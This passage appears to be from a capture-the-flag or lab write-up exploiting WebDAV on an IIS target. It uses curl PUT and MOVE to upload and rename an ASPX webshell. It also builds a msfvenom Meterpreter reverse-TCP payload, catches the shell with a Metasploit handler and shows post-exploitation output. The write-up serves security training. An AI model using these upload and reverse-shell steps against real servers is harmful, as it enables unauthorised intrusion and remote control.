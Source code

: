 ```bash
```
CURL Command:
```bash
curl -X PUT http://10.129.95.234/test.txt -d @cmdasp.aspx
```
The command above used the "PUT" method to upload the webshell disguised as a .txt file.

```bash
curl -X MOVE -H 'Destintion:http://TARGET/test.aspx' http://TARGET/test.txt
```
The 'MOVE' method was used to relocate the webshell to the same directory with a different file extension.

After being successful with this, it was time to use msfvenom to craft a payload and replicate the same method

---

## 3. Exploitation

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=tun0 lport=4444 -f aspx > shell.aspx
```
Using "CURL" I will upload the payload:
```bash
curl -X PUT http://10.129.95.234/shell.txt --data-binary @shell.aspx
```
--data-binary is to ensure the preservation of newlines and other control characters.
```bash
curl -X MOVE -H 'Destination:http://TARGET/shell.aspx' http://TARGET/shell.txt
```
My next step is loading the Metasploit handler so I can catch the shell after triggering the payload.
```bash
exploit/multi/handler
```

After setting my options and running the exploit, I triggered the payload.
```bash
curl http://10.129.95.234/shell.aspx
```

After triggering the payload I got a shell.


---

## 4. Post Exploitation

After gaining access, I used the below commands to get information:

```bash
getuid
ps
```
Below are the results:
```bash
meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System
 192   1096  cidaemon.exe
```
